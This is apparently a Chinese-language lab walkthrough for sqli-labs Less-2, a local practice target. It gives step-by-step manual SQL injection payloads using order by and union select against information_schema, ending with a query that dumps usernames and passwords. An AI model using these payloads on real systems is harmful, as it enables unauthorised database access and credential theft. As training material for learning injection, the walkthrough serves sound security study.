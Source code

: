 ## 练习开始

首先打开http://127.0.0.1/Less-2/?id=1
![](luffy1.png)

第一题是基于显错方式的数字型注入，位置在where之后且后跟limit

核心的语句在于
```
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```
相比于第一题的不同在于，参数没有被单引号所包裹，所以不需要考虑单引号闭合的问题
```
and 1066=1066  返回正确
and 2012=1066  返回错误
```


## 手工注入

### 0x01 判断列数

`
http://127.0.0.1/Less-2/?id=1  order by 3
`
在语句中的形式就是
`
SELECT * FROM users WHERE id=1  order by 3 LIMIT 0,1
`

### 0x02 判断显错点
`
http://127.0.0.1/Less-2/?id=-1 union select 1,2,3
`
![](luffy2.png)
如此 显错点还是2和3


### 0x03 查看数据库

`
http://127.0.0.1/Less-2/?id=-1 union select 1,count(*),3 from information_schema.schemata #
`

遍历数据库
`
http://127.0.0.1/Less-2/?id=-1 union select 1,schema_name,3 from information_schema.schemata limit 0,1 --+
`

这里有一点需要注意的是后面的limit已经写死了，需要将后面的limit 0,1 注释之后才能继续操作


### 0x04 查看表

猜测表的数量
`
http://127.0.0.1/Less-2/?id=-1 union select 1,count(*),3 from information_schema.tables where table_schema='security' --+
`
遍历表的名字

`
http://127.0.0.1/Less-2/?id=-1 union select 1,table_name,3 from information_schema.tables where table_schema='security' limit 0,1--+
`

### 0x05 查看列

猜测列的数量
`
http://127.0.0.1/Less-2/?id=-1 union select 1,count(*),3 from information_schema.columns where table_schema='security' and table_name='users' --+
`
遍历列

`
http://127.0.0.1/Less-2/?id=-1 union select 1,column_name,3 from information_schema.columns where table_schema='security' and table_name='users' limit 0,1--+
`
![](luffy6.png)



### 0x06 猜解内容
`
http://127.0.0.1/Less-2/?id=-1 union select 1,concat_ws(" : ", username, password),3 from users --+
`

